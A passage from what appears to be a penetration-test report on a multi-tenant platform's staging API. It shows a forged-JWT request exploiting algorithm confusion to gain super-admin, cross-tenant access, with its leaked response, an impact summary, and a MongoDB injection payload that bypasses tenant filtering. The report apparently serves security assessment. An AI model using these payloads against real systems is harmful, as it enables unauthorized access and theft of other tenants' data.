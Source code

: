 **Phase 4: Exploitation Validation**
```http
GET /api/admin/users HTTP/1.1
Host: staging.isectech.com
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1c2VyXzEyMyIsInJvbGUiOiJzdXBlcl9hZG1pbiIsInRlbmFudF9pZCI6IioiLCJhZG1pbl9hY2Nlc3MiOnRydWUsImlhdCI6MTczMzQ3MjAwMCwiZXhwIjoxNzMzNTU4NDAwfQ.malicious_signature

Response: 200 OK
{
  "users": [
    {
      "id": "user_456", 
      "email": "admin@tenant-b.com",
      "tenant_id": "tenant_b",
      "role": "admin",
      "last_login": "2025-08-05T14:30:00Z"
    }
    // ... ALL users across ALL tenants returned
  ],
  "total_count": 15847,
  "admin_access_granted": true
}
```

**Business Impact Assessment:**
```
JWT Algorithm Confusion Impact:
├── Complete authentication bypass achieved
├── Super administrative privileges obtained
├── Cross-tenant access granted via "*" tenant_id
├── All user accounts and credentials accessible
├── Administrative functions unlocked

Attack Scalability:
├── Token valid for 24 hours
├── No detection mechanisms triggered
├── Can be used across all API endpoints
├── Enables complete platform takeover
├── Difficult to distinguish from legitimate admin access
```

## 5. High-Severity Vulnerability Exploits

### 5.1 NoSQL Injection in Search Functionality

**Exploitation Demonstration:**
```javascript
// MongoDB query injection via search API
const maliciousSearchQuery = {
  "search_term": "security",
  "filters": {
    "$where": "function() { return true; }",  // Always true condition
    "tenant_id": {"$ne": null}                // Bypass tenant filtering
  },
  "aggregation": [
    {"$match": {}},                           // Match all documents
    {"$group": {                              // Group by tenant
      "_id": "$tenant_id",
      "total_records": {"$sum": 1},
      "sensitive_data": {"$push": "$$ROOT"}
    }}
  ]
};

```